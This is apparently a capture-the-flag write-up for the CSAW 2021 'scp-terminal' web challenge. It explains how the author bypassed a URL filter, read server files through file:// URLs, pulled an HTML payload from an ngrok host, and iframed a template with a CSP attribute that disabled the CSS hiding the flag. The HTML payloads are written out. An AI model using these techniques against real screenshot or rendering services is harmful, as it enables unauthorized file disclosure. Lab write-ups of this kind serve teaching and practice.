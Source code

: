## scp-terminal (web, 497)

```text
Every since you started working this administrative government job, things have gotten strange. It's not just because your day is spent cataloging an archive of anomalous objects. In your dreams you see a burning number: 31337 Maybe this terminal can help uncover the meaning of these dreams.
```

![](/ctf/csaw-quals-2021/scp_terminal_landing.png)

The Explore Archive button opens up a random SCP-wiki page and the Contain SCP button will open up the provided URL on the server and show a screenshot. It'll only work if the URL contains "scp-" so I added "?test=scp-wiki" to the end of the URL to bypass the check. 

### Enumeration

Using the URL "view-source:file:///server?test=scp-wiki" prints a list of all the server files. I used view-source because it wasn't rendering the file listing directly for some reason. 

![](/ctf/csaw-quals-2021/scp_terminal_serverdir.png)

There are a few interesting files there; but let's look at server.py first.

![](/ctf/csaw-quals-2021/scp_terminal_serverpy.png)

Hey, we have arbitrary file read; What if I just view the flag template? 

![](/ctf/csaw-quals-2021/scp_terminal_scp31337.png)

Ahahaha I should've expected that. The next thing I tried was viewing the source, but the viewport wasn't big enough to see the flag. I was stuck on this stage for a while until I found some functionality which let me upload a file to the server by viewing a page like this. 

```html
<html>
<head>
</head>
<body>
<div class="scp-image-block">
	<img  src="http://822f-128-194-3-233.ngrok.io/exploit.html">
</div>
</body>
</html>
```

![](/ctf/csaw-quals-2021/scp_terminal_contain.png)

The server won't serve contained non-image files but it doesn't matter all that much because we have arbitrary file read by way of file://. I actually wrote a payload that worked in my testing, was really excited to test on the server only to find it didn't work -- Firefox considers file <-> file to be the same origin but Chrome does not so I couldn't access the contents of the iframe. I read the documentation on iframes and found the csp attribute; which lets me control the content security policy of the child page. The flag was in the viewport of scp_31337.html, just obfuscated by css. I wrote a quick HTML to iframe the file with CSS disabled and then got the flag. 

```html
<html>
<head>
</head>
<body>
<iframe id="frame" src="file:///server/templates/scp-31337.html"
            title="iframe Example 1" width="720" height="400" csp="style-src none">
</iframe>
</body>
</html>
```
![](/ctf/csaw-quals-2021/scp_terminal_flag.png)